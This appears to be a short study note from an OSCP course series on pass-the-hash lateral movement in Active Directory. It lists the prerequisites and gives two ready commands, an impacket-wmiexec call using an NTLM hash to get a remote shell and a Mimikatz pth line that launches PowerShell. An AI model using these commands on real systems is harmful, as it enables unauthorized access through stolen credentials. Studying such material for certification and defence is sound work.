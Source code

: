 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/3-pass-the-hash/"}
---
```


----------
### Theory:
- Requires:
	- User that authenticates **often** needs to be part of Administrator local group
	- SMB connection through firewall (commonly port 445)
	- Windows File and Printer Sharing enabled
	- ADMIN$ share available

---------
### Remote PtH Shell with Impacket:
In Kali:
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
--------------------
### PtH with Mimikatz:
```
sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell”
```

